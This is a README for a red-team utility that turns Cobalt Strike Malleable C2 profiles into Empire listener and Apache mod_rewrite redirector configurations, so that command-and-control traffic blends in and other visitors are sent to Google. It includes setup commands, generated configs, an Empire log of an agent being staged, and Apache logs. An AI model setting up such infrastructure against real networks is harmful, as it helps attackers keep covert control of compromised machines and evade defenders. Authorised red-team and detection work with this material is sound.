 ## beacon2empire

beacon2empire.py can be used to convert Cobalt Strike Malleable C2 profiles to matching Empire listener and Apache mod_rewrite configurations. This serves two important purposes:
- Empire C2 traffic can be made to blend in with regular network traffic.  
- The conditional mod_rewrite configuration ensures that only traffic fitting the parameters of a listener is forwarded to Empire. Everything else gets forwarded elsewhere.  

### Operation
While the proxy can be run on the same server as Empire, it is both tidier and safer to run it externally.

Edit /etc/apache2/apache.conf, changing "AllowOverride None" to "AllowOverride All":
```
<Directory /var/www/>
Options Indexes FollowSymLinks
AllowOverride All
Require all granted
</Directory>
```

Enable the rewrite and proxy modules:
```
sudo a2enmod rewrite proxy proxy_http
sudo service apache2 restart
```

The script requires 4 parameters:
- **-b:** Path containing beacon C2 profiles. Nested folders are OK as the script recurses, searching for files with the extension ".profile".  
- **-e:** Empire URL, the URL that Apache proxies Empire C2 traffic to. This must be of the format:
```
<uri scheme>://<address>:<port> (e.g. http://12.34.56.78:8080)
```    
- **-p:** Proxy URL, the URL that Empire stagers connect to. This must be of the format:
```
<uri scheme>://<address>:<port> (e.g. http://12.34.56.78:8080)
```
- **-r:** Redirect URL, the URL that non-Empire requests are redirected to. This must be of the format:
```
<uri scheme>://<address> (e.g. https://www.google.com)
```

For example:
```
python3 convert.py -e http://12.34.56.78:8080 -p http://23.45.67.89:80 -r https://www.google.com -b /home/ubuntu/c2-profiles
```
- **C2 profile path:** /home/ubuntu/c2-profiles  
- **Empire public address:** 12.34.56.78 (bind address is always 0.0.0.0)  
- **Empire port:** 8080  
- **Proxy IP:** 23.45.67.89  
- **Proxy port:** 80  
- **Redirect URL:** https://www.google.com  

There are two outputs:
- The Empire listener configuration. Use this to start a listener in Empire.  
- The Apache mod_rewrite configuration. Place this in a .htaccess file in the root directory of your Apache server (e.g. /var/www/html).  

When testing, it can pay to tail your Apache access log to ensure that the listener and rewrite configurations line up. You should have 200's for successful hits and 302's for non-Empire traffic. If C2 traffic is hitting the wrong paths, has no user agent or isn't coming through at all - there has likely been an issue with the conversion. Known issues with client parameters are:
- "Connection" header can cause the User Agent not to be sent.  
- "Host" header can cause requests to hit "/" and be redirected instead of proxied.  

### Example
The following example uses a profile from: https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/magnitude.profile

The example uses the same parameters as presented above:
```
>python3 convert.py -e http://12.34.56.78:8080 -p http://23.45.67.89:80 -r https://www.google.com -b /home/ubuntu/c2-profiles/test
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Converting: /home/ubuntu/c2-profiles/test/magnitude.profile
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Empire configuration:
listeners
uselistener http
set Name magnitude
set BindIP 0.0.0.0
set Port 8080
set Host http://23.45.67.89:80
set DefaultJitter 50
set DefaultDelay 45
set DefaultProfile /themes/index.php,/work/1.php|Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)|Accept:image/jpeg, application/*|Referer:http://www.bankofbotswana.bw/|Accept-Encoding:gzip, deflate|Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8|Accept-Language:en-US;q=0.5,en;q=0.3|Content-Type:application/octet-stream
set Headers Server:Apache/2.2.17 (Ubuntu)|X-Powered-By:PHP/5.3.5-1ubuntu7.8|Content-Encoding:gzip|Content-Type:text/html
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Apache rewrite configuration:
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(themes/index.php|work/1.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 8\.0;\ Windows\ NT\ 5\.1;\ Trident/4\.0;\ \.NET\ CLR\ 2\.0\.50727;\ \.NET\ CLR\ 3\.0\.4506\.2152;\ \.NET\ CLR\ 3\.5\.30729\)?$
RewriteRule ^.*$ http://12.34.56.78:8080%{REQUEST_URI} [P]
RewriteRule ^.*$ https://www.google.com/? [L,R=302]
```

Empire console:
```
(Empire: stager/windows/launcher_bat) >
[*] Sending POWERSHELL stager (stage 1) to 23.45.67.89
[*] New agent WXPFM9V2 checked in
[+] Initial agent WXPFM9V2 from 23.45.67.89 now active (Slack)
[*] Sending agent (stage 2) to WXPFM9V2 at 23.45.67.89
```

How staging appears in the Apache log:
```
34.56.78.90 - - [20/Jun/2020:04:14:59 +0000] "GET /work/1.php HTTP/1.1" 200 6003 "http" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:31 +0000] "POST /work/1.php HTTP/1.1" 200 532 "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:33 +0000] "POST /work/1.php HTTP/1.1" 200 39216 "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:35 +0000] "GET /work/1.php HTTP/1.1" 200 1542 "http" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
```

Whereas a request from a browser is redirected:
```
34.56.78.90 - - [20/Jun/2020:04:24:37 +0000] "GET / HTTP/1.1" 302 535 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"
```

### Credit
Inspiration for this idea came from this blog post: https://thevivi.net/2017/11/03/securing-your-empire-c2-with-apache-mod_rewrite/